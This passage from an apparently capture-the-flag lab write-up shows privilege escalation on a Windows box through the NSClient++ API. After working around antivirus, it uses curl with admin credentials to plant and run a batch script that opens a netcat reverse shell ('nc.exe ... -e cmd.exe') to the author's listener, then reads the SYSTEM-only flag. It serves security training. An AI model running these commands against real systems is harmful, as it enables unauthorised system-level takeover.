I tried to download `nc.exe` with certutils but it was blocked by the AV too.

So I downloaded it via scp:

```
$ scp nc.exe nadine@10.10.10.184:/temp/nc.exe
```

I tried to create the RCE via the webUI as in the exploit but wasn't successful.

- https://127.0.0.1:9999/index.html#/settings/settings/external%20scripts/scripts
- https://127.0.0.1:9999/index.html#/settings/settings/scheduler/schedules

So instead I created the task via the API:

```
$ curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://127.0.0.1:9999/api/v1/scripts/ext/scripts/cyfun.bat --data-binary "c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe"
Added cyfun as scripts\cyfun.bat

$ curl -s -k -u admin:ew2x6SsGTxjRwXOT https://127.0.0.1:9999/api/v1/queries/cyfun/commands/execute\?time\=1m
{"command":"cyfun","lines":[{"message":"Command cyfun didn't terminate within the timeout period 60s","perf":{}}],"result":3}
```

And finally got a privileged shell:

```
$ nc -nlp 8888
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system

C:\Program Files\NSClient++>type c:\users\administrator\desktop\root.txt
72c07cb24f21e63a855346edcd0816cb
```

[nmap]:https://nmap.org/
[msf]:https://www.metasploit.com/
